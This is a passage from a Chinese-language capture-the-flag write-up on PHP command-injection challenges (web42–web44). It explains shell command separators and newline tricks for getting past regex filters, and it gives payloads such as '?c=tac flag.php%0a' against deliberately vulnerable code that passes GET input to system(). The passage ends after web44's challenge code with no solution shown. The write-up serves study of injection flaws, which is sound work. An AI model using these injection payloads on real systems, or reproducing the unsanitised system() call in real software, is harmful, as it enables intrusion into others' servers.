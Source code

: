 要让命令回显，可以进行命令分隔，以此来绕过

```php
;     分号
|     只执行后面那条命令
||    只执行前面那条命令
&     两条命令都会执行
&&    两条命令都会执行
```

```
POC:
1.
?c=cat flag.php ||
2.
?c=cat flag.php%0a
换行
3.
?c=cat flag.php;ls
后面ls不会执行，而前面会被执行
```

## web43

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```php
?c=tac flag.php%0a
```

## web44

```php
<?php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
